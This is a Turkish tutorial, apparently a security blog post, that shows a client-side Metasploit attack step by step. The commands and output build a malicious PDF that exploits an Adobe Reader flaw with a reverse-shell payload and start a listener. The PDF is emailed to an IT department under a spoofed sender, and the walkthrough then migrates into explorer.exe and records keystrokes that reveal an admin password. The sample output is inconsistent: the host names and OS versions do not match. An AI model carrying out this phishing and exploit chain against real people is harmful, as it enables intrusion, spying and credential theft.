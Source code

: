 ```yaml
---
draft: false
title: MSF Binary İstemci Exploitleri
linkTitle: Binary İstemci Exploitleri
weight: 200
translationKey: msf-binary-client-exploits
description: Metasploit Framework ile istemci tarafı exploitlerini kullanarak hedef bilgisayarlara sızma işlemleri.
date: 2017-05-20T13:13:00+03:00
author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))
url: /tr/msf-binary-istemci-exploitleri/
featured_image: /images/metasploit.jpg
categories:
    - Metasploit Framework
tags:
    - cybersecurity
    - metasploit framework
---
```

## İstemci Tarafı Exploitler

Önceki yazılarımızda Windows ve Linux için kullanılan istemci tarafı exploitleri görmüştük. Bu yazımızda başka bir senaryoya bakmak istiyorum.

Başarılı bir bilgi toplama safhasından sonra bir IT firması ile ilgili şu sonuca ulaştığımızı farz edelim. Firma;

1) Kullandıkları sistemler en yeni teknolojidir.

2) IT departmanının eposta adresi: <itdept@victim.com>

Şimdi bu durumda, IT departmanında bir bilgisayara ulaşmak ve keylogger adı verilen (tuş kaydedici) çalıştırmak istiyoruz. Bu sayede klavyeden bastıkları tuşları kayıt ederek yararlı bilgiler elde etmek mümkün olacaktır.

`msfconsole` komutu ile Metasploit Framework’ü çalıştıralım. IT departmanının ilgisini çekecek ve açıp okumak isteyeceği bir PDF dokümanı hazırlayalım. Dokümanın güvenlikle ilgili ve mantıklı bir başlığının olması gerektiğini unutmayın. Ayrıca Antivirüs yazılımları tarafından zararlı olarak algılanmaması gerekmektedir.

Böyle bir PDF dokümanı hazırlamak için **Adobe Reader ‘util.printf()’ JavaScript Function Stack Buffer Overflow Zafiyetini** kullanacağız. Bunun için `exploit/windows/fileformat/adobe_utilprintf` modülünü yükleyelim.

```bash
msf > use exploit/windows/fileformat/adobe_utilprintf
msf exploit(adobe_utilprintf) > set FILENAME BestComputers-UpgradeInstructions.pdf
FILENAME => BestComputers-UpgradeInstructions.pdf
msf exploit(adobe_utilprintf) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf exploit(adobe_utilprintf) > set LHOST 192.168.8.128
LHOST => 192.168.8.128
msf exploit(adobe_utilprintf) > set LPORT 4455
LPORT => 4455
msf exploit(adobe_utilprintf) > show options

Module options (exploit/windows/fileformat/adobe_utilprintf):

   Name      Current Setting                        Required  Description
   ----      ---------------                        --------  -----------
   FILENAME  BestComputers-UpgradeInstructions.pdf  yes       The file name.


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.8.128    yes       The listen address
   LPORT     4455             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Adobe Reader v8.1.2 (Windows XP SP3 English)
```

Çıktıdan da görüleceği gibi `FILENAME` değişkenini yani dosya adını istediğiniz gibi ayarlayabilirsiniz. Payload kısmında ise `LHOST` ve `LPORT` değişkenlerini dinleme yapılacak bilgisayarın bilgileri olarak ayarlamamız gerekmektedir. Ardında `exploit` komutu ile modülü çalıştıralım.

```bash
msf exploit(adobe_utilprintf) > exploit

> Creating 'BestComputers-UpgradeInstructions.pdf' file...
> BestComputers-UpgradeInstructions.pdf stored at /root/.msf4/local/BestComputers-UpgradeInstructions.pdf
msf exploit(adobe_utilprintf) >
```

Görüldüğü gibi PDF dosyası, `/root/.msf4/local/` içerisine oluşturulmuştur. Bu dosyayı kolay ulaşım için `/tmp` klasörü içine kopyalayalım. Şimdi dosyamızı ilgili eposta adresine göndermeden önce bilgisayarımızda dinleyici modülü çalıştırmamız gerekiyor. Bunun için `exploit/multi/handler` modülünü kullanacağız. `LHOST` ve `LPORT` değerlerini PDF dosyası oluştururken verdiğimiz değerlerle aynı olmasına dikkat ediyoruz.

```bash
msf > use exploit/multi/handler
msf exploit(handler) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf exploit(handler) > set LPORT 4455
LPORT => 4455
msf exploit(handler) > set LHOST 192.168.8.128
LHOST => 192.168.8.128
msf exploit(handler) > exploit

> Handler binding to LHOST 0.0.0.0
> Started reverse handler
> Starting the payload handler...
```

Dinleyici modülü aktif hale getirdikten sonra bir şekilde PDF dosyasını `itdept@victim.com` adresine göndermemiz gerekiyor. Bunu aşağıdaki örnek komutla yapabilirsiniz. Başka eposta gönderme yöntemleri de kullanabilirsiniz. Komut örnek olarak verilmiştir.

```bash
root@kali:~# sendEmail -t itdept@victim.com -f techsupport@bestcomputers.com -s 192.168.8.131 -u Important Upgrade Instructions -a /tmp/BestComputers-UpgradeInstructions.pdf
Reading message body from STDIN because the '-m' option was not used.
If you are manually typing **in **a message:
  - First line must be received within 60 seconds.
  - End manual input with a CTRL-D on its own line.

IT Dept,

We are sending this important file to all our customers. It contains very important instructions for **upgrading and securing your software. Please read and let us know **if **you have any problems.

Sincerely,

Best Computers Tech Support
Aug 24 17:32:51 kali sendEmail[13144]: Message input complete.
Aug 24 17:32:51 kali sendEmail[13144]: Email was sent successfully!
```

Bu örnek komutta kullanılan parametreleri kısaca açıklayalım.

`-t`: TO yani alıcı adresi ifade eder. `-f`: FROM yani gönderici adresi ifade eder. `-s`: SMTP Server IP adresini ifade eder. `-u`: TTITLE yani postanın konusunu ifade eder. `-a`: ATTACHMENT yani ekli dosyayı ifade eder.

Komutu yazıp ENTER tuşuna bastığınızda, epostanın Metin kısmını yazmaya başlayabilirsiniz. Yazım tamamlandıktan sonra CTRL+D tuşları ile işlemi tamamlayabilirsiniz. Böylece posta alıcı adrese gönderilecektir.

Alıcı, bu postayı alıp Antivirüs programı ile kontrol ettiğinde zararsız olarak sonuç alacaktır ancak dosyayı açmak için tıkladığında karşısına boş bir ekran gelse bile aslında dinleyici bilgisayarla iletişim kurulmuş olur.

```bash
> Handler binding to LHOST 0.0.0.0
> Started reverse handler
> Starting the payload handler...
> Sending stage (718336 bytes)
session[*****] Meterpreter session 1 opened (192.168.8.128:4455 -> 192.168.8.130:49322)

meterpreter >
```

Gördüğünüz gibi, PDF dosyası açıldığında Meterpreter shell açılmış durumdadır. Artık karşı tarafın bilgisayarında çeşitli komutları çalıştırmak mümkündür. Son olarak `post/windows/capture/keylog_recorder` modülünü çalıştırarak tuş hareketlerini kaydetmek mümkün hale gelmiştir.

```bash
meterpreter > ps

Process list
**============**

    PID   Name            Path                                 
    ---   ----            ----                                 
    852   taskeng.exe     C:\Windows\system32\taskeng.exe      
    1308  Dwm.exe         C:\Windows\system32\Dwm.exe          
    1520  explorer.exe    C:\Windows\explorer.exe              
    2184  VMwareTray.exe  C:\Program Files\VMware\VMware Tools\VMwareTray.exe
    2196  VMwareUser.exe  C:\Program FilesVMware\VMware Tools\VMwareUser.exe
    3176  iexplore.exe    C:\Program Files\Internet Explorer\iexplore.exe
    3452  AcroRd32.exe    C:\Program Files\AdobeReader 8.0\ReaderAcroRd32.exe

meterpreter > run post/windows/manage/migrate 

> Running module against V-MAC-XP
> Current server process: svchost.exe (1076)
> Migrating to explorer.exe...
> Migrating into process ID 816
> New server process: Explorer.EXE (816)

meterpreter > sysinfo
Computer: OFFSEC-PC
OS      : Windows Vista (Build 6000, ).

meterpreter > use priv
Loading extension priv...success.

meterpreter > run post/windows/capture/keylog_recorder 

> Executing module against V-MAC-XP
> Starting the keystroke sniffer...
> Keystrokes being saved **in **to /root/.msf4/loot/20110323091836_default_192.168.1.195_host.windows.key_832155.txt
> Recording keystrokes...
```

Kaydedilen tuşları, `20110323091836_default_192.168.1.195_host.windows.key_832155.txt` dosyasının içeriğinden kontrol edebilirsiniz.

```bash
root@kali:~# cat /root/.msf4/loot/20110323091836_default_192.168.1.195_host.windows.key_832155.txt
Keystroke log started at Wed Mar 23 09:18:36 -0600 2011
Support,   I tried to open ti his file 2-3 times with no success.  I even had my admin and CFO tru   y it, but no one can get it to p open.  I turned on the rmote access server so you can log in to fix this problem.  Our user name is admin and password for that session is 123456. Call or emeail when you are done. Thanks IT Dept
```

Görüldüğü gibi IT çalışanı, tuş hareketlerinde kullanıcı adının `admin` ve parolasının `123456` olduğunu habersizce ortaya çıkarmıştır.
